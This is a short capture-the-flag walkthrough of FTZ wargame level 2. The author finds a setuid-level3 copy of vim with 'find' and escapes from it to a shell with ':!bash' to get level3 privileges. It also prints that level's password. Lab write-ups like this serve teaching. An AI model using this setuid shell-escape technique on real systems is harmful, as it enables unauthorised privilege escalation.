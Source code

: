 # Level2

## This level's goal

- run the command in vi/vim editor

***

`[level2@ftz level2]$ cat hint`

텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...

`[level2@ftz level2]$ find / -user level3 -perm -4000 2>/dev/null`

/usr/bin/editor

`[level2@ftz level2]$ ls -l /usr/bin/editor`

-rwsr-x---    1 level3   level2      11651 Aug 19  2014 /usr/bin/editor



`[level2@ftz level2]$ which vi`

alias vi='vim'
        
/usr/bin/vim

`[level2@ftz level2]$ ls -l /bin/vi`

-rwxr-xr-x    1 root     root       456108 Feb 12  2003 /bin/vi

`[level2@ftz level2]$ ls -l /usr/bin/vim`

-rwxr-xr-x    1 root     root      1893740 Feb 12  2003 /usr/bin/vim



`[level2@ftz level2]$ /usr/bin/editor`

`:!id`

uid=3003(level3) gid=3002(level2) groups=3002(level2)

Hit ENTER or type command to continue

`:!bash`



`[level3@ftz level2]$ my-pass`

Level3 Password is "can you fly?".
